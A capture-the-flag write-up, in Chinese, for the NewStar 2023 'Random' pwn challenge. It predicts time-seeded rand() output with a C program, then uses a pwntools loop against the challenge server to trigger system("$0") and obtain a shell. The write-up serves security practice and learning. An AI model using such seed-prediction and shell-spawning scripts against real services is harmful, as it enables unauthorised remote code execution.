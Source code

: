 ```yaml
---
title: newstar2023 week1 - Random
date: 2023/9/28 12:00:00
tags:
    - result predicting
---
```


## 文件分析

下载`pwn`，保护全开  
ghidra分析为64位程序

## 解题思路

程序中有且仅有一个%d的输入，且匹配读入的int类型，所以不存在输入中的漏洞

但是将输入的数字猜对，可以执行system，不过是2$031中的某2个字符  
只要执行system("$0")，同样可以打开shell

随机值的种子是系统当前时间，种子相同，随机数相同  
故我们需要在正确的时间输入正确的随机数才能打开shell

## EXPLOIT

首先我们需要找到这个合适的时间

```c
// seedprobe.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

static char cmdlist[5] = {'2', '$', '0', '3', '1'};

int main(void) {
    time_t init = time(NULL) + 5; // 为了避免本地与服务器时间不同带来的问题，故选择5秒后开始计算
    int valid = 0;
    for (int i = 0; i < 120; i++) {
        srand(init + i);
        int guess = rand();
        char c2 = cmdlist[rand() % 5];
        char c1 = cmdlist[rand() % 2];
        if (c1 == '$' && c2 == '0') { // 模拟程序运行
            time_t tmp = init + i;
            char timestr[16];
            strftime(timestr, 16, "%m-%d %H:%M:%S ", localtime(&tmp));
            printf("%s\b, guess=%d\n", timestr, guess); // 打印时间方便卡时间测试；打印数字方便读取
            valid++;
        }
    }
    if (valid > 0) 
        printf("%d valid time stamps.\n", valid);
    else
        printf("No valid time now.\n");
    return 0;
}
```

然后在合适的时间启动gdb调试，发现可以成功打开shell，于是开始打靶

```python
from pwn import *
import time

sh = process('seedprobe') # 取第一个数字
sh.recvuntil(b'=') # skip
guess = sh.recvline()[:-1] # strip '\n'
sh.close()

while True:
    sh = remote("node4.buuoj.cn", 26447)
    sh.sendline(guess)
    if sh.recvuntil(b'Ha', timeout=1) == b'': # 超时未读到Haha...即代表已在合适的时间猜对数字
        break
    sh.close()
    time.sleep(0.5)

sh.interactive()
```

## 参考文献

[模拟攻击](http://www.asuka39.top/article/security/ctf/pwn/2064/)

Done.
